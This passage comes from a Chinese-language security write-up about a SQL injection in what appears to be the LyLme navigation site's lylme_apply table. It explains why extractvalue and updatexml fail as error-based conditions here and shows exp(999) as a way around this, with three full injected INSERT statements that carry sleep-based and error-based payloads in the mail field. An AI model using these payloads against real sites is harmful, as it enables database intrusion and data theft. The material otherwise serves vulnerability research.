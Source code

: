 [![](assets/1701222538-7a35c96817332fd73012fd7b691f63e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135311-3fbf0446-8ce9-1.png)

## 巧妙利用报错特性

  那么有没有办法，让他判断不等于的时候，让`if`的第二个条件出错呢？这里又涉及到一个很巧的trick，报错很多人第一时间想的是`updatexml`、`extractvalue`这些非常经典的报错语句，但是这个由于执行顺序不同，会比`if`优先执行报错，这样子无论正确与否都会导致错误，没办法做区分,这个时候就可以用到`exp(999)`来绕过这个限制

```plain
# extractvalue
 INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),extractvalue(1,user()))>'', '2023-10-07 22:14:25', '0');

 # updatexml
 INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),updatexml(1,user(),0))>'', '2023-10-07 22:14:25', '0');

# exp(999)
INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, 'test', 'http://qq.com1213111111a1', '1', '', '0'>if(1,sleep(5),exp(999))>'', '2023-10-07 22:14:25', '0');
```
